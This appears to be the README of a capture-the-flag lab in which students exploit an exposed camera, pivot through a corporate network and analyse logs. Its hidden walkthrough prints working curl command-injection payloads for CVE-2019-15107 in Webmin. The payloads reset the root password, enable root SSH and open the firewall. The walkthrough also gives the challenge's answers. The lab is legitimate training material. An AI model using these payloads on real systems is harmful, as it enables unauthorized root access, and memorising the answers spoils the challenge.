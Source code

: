# Corporate Retreat

This challenge simulates an investigation into a corporate network.
Students must discover a publicly accessible camera and abuse its interface to gain access to an internal network.
From there, they exploit a known CVE to further deepen the access to the network, where they uncover evidence related to an attack.
The challenge emphasizes network scanning, exploitation of vulnerabilities, and basic forensic analysis.

## Skills Used

1. **Network Scanning and Discovery**: Students scan the network range to identify vulnerable devices.
2. **Exploitation of Known Vulnerabilities**: Students exploit CVE-2019-15107 to gain unauthorized access.
3. **Credential Abuse**: Students extract and reuse credentials to escalate privileges.
4. **Lateral Movement**: Students use compromised devices to pivot into internal networks and discover additional devices.
5. **Forensic Analysis**: Students analyze logs to trace the origin of an attack and uncover evidence.

## Learning Objectives

- Understand how to perform network discovery to identify vulnerable devices.
- Learn to exploit known CVEs to gain unauthorized access.
- Practice lateral movement techniques to pivot across internal networks.
- Develop skills in forensic log analysis to trace attacker activity and uncover evidence.
- Recognize the risks of credential reuse and weak authentication mechanisms.

## How to solve

<details>
  <summary>Click to reveal how to solve steps</summary>
1. Scan the network range as suggested
2. Access the camera UI at `172.20.0.231` and go to settings
3. Extract the admin password from the source code and log in with it
4. Abuse the shell to map the network (especially the non-public part)
5. Access the admin UI of the non-public-facing gateway - for this, you can extend the transparent proxy script to allow customization of the exposed port and download it to the camera, where you will then run it to proxy `10.3.0.2:10000` to any open port of the camera.
6. Abuse CVE-2019-15107 to set the root password, for example `curl https://localhost:2223/password_change.cgi -d 'user=wheel&pam=&expired=2&old=echo "root:toor"|chpasswd|echo done&new1=wheel&new2=wheel' -k -H 'Referer: https://localhost:2223'`, (where `localhost:2223` is still proxied to `10.3.0.2:10000`)
7. You can now log in into the admin UI with root:toor. Webmin sometimes tends to get stuck loading after login - if it happens, click the cog icon in the left sidebar to unstuck it. In Webmin>Others>Command Shell, you get another root shell, this time on the router - which is in another network now, that interests us.
8. Of course extract the poem the task asks for, from `/app/poem.txt`
9. Discover devices in `10.0.0.0/24` that might help answer the local IP address question, specifically the outbound router (also the default gateway of the current gateway...) at `10.0.0.4`. It is again running something on port 10000 (and also 22). Run the Webmin exploit again, this time also enabling root login through SSH and allowing yourself to SSH in through BigComp's standard public IP address rather than tunneling through 2 other devices, e.g. `curl https://10.0.0.4:10000/password_change.cgi -d 'user=wheel&pam=&expired=2&old=echo%20%22root%3Atoor%22%7Cchpasswd%26%26sed%20-i%20-e%20%22%2F.*PermitRootLogin.*%2Fd%22%20-e%20%22%5C%24a%20PermitRootLogin%20yes%22%20%2Fetc%2Fssh%2Fsshd_config%26%26iptables%20-I%20INPUT%20-j%20ACCEPT%26%26service%20ssh%20restart%26%26echo%20ok&new1=wheel&new2=wheel' -k -H 'Referer: https://10.0.0.4:10000'` (urldecode if illegible)
10. Now SSH directly from hackerlab to `172.20.0.239` and run `cat /var/log/ulog/syslogemu.log |grep 172.20.0.200`: the log file contains ulogd output of iptables' NFLOG chain, logging all outgoing SSH connections, and the IP address is the one used by the cousin during the incursion. You should find the source address of `10.0.1.233`.
11. For the address, there is an unsecured employee record system at `http://10.0.0.8:8000` with a list of employees. Each employee detail (`?page=$employeeId`) then contains associated IP addresses. In our case, `10.0.1.233` is registered with user 88811, who happens to reside at `Langelinie Allé 21`. Importantly, there is also a second IP address registered (`10.0.4.18`).
12. From iptables, we can deduce that there is an HTTP proxy running at `10.0.0.5`, which also exposes the SSH port, and we are let in as root without a password. Now we can read `/var/log/proxy/web-proxy-2025-01-05.log`, which contains a login attempt to `www.bread.forum`.
13. The 2nd level domain is `bread.forum`, so submit that for the baked goods task.
14. The credentials are also logged (but URLencoded): `Vigilante88:M1r0{mayFXwawow1ezzUjVIOutDhKRcZGJblvzDOgBaA4EMmQG09UpfP8i3XQA4YY}`

These instructions of course use a significant amount of shortcuts and knowledge that the attacker would have to spend a lot of effort finding. However, this is simply a short walkthrough, so it makes sense. 
</details>

## Notes

Some software is preinstalled on devices for attacker convenience.
This is because `apt` tends to hang more often than not when ran through Webmin.
